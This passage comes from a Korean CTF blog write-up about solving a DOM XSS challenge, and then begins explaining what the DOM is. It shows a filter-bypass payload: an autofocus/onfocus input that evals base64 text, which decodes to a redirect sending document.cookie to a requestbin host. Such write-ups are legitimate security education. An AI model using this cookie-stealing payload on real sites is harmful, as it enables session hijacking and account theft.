 

------



이러고 있을때 **ccoma**언니가 와서 필터링부터 확인하는법을 알려줌!
**알고보니 `document.cookie`가 필터링되고 있더라고요!**

이거 필터링되면 try harder가 뜸! 그래서 안되었던거였어요!

그럼 `document.cookie`를 우회하면 풀릴겁니다!



**내 계획을 들어봐요!**

```html
<input autofocus onfocus=eval(atob( 여기 안에 base64로 변환한 내용을 넣을거에요! )))>
```



변환될 내용은 아래와 같을 예정이에요!

```
'location='server address?a='+document.cookie'
```



변환을 하면?!

```
bG9jYXRpb249J2h0dHA6Ly9yZXF1ZXN0YmluLmZ1bGxjb250YWN0LmNvbS9zeDA4MjBzeD9hPScrZG9jdW1lbnQuY29va2llJw==
```



**짜란! 풀립니다!**



![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_09.png)13번이 남긴 스크립트.jpg





------



진짜 사소한 이유로 못 풀고 있었던 문제… 넘나 힘든 문제였습니다…

**근데 잠시만요! 이거 Dom XSS문제에요.**
Dom XSS가 뭔지 우리 1편에서 잠깐 봤는데, 예시 문제가 없었거든요!


![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_10.png)



지금 예시 문제를 만난 김에 알아가고 넘어가죠!



#### Dom이 뭔가요??
